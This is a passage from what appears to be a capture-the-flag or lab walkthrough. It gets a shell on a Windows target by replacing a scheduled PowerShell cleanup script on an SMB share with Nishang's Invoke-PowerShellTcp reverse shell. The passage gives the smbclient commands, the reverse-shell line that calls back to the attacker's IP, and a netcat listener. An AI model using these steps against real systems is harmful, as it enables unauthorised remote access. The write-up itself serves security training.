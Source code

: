 - Connect with `smbclient` with the credentials you got.


```
smbclient //<MACHINE IP>/Enterprise-Share -U 'enterprise-security'
smb: \> dir
```

![[Screenshot_2025-10-04_13-45-23.png]]

- Display the `PurgeIrrelevantData_1826.ps1` content .
```
smb: \> more PurgeIrrelevantData_1826.ps1
```

![[Screenshot_2025-10-04_13-50-51 1.png]]

Effect: it will **silently delete everything inside** `C:\Users\Public\Documents\` but **not the folder itself**.

## Reverse Shell

#Attacking_Machine 
- You need a reverse shell like `Invoke-PowerShellTcp.ps1` to get a shell on your attacking machine. You can download it from [here](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).
- After download it, rename it as `PurgeIrrelevantData_1826.ps1`.
- Add the following line at the bottom of the file.
```
Invoke-PowerShellTcp -Reverse -IPAddress <ATTACKING MACHIINE IP> -Port 443
```

#SMB_shell
- Put it to the victim machine.

```
smb: \> put PurgeIrrelevantData_1826.ps1 
```

#Attacking_Machine 
- Open a netcat listener on port 443.

```
nc -lnvp 443
```

As the `PurgeIrrelevantData_1826.ps1` supposedly is run as a cron task, you'll have to wait for the target system to execute the script.

![[Screenshot_2025-10-04_14-36-22.png]]


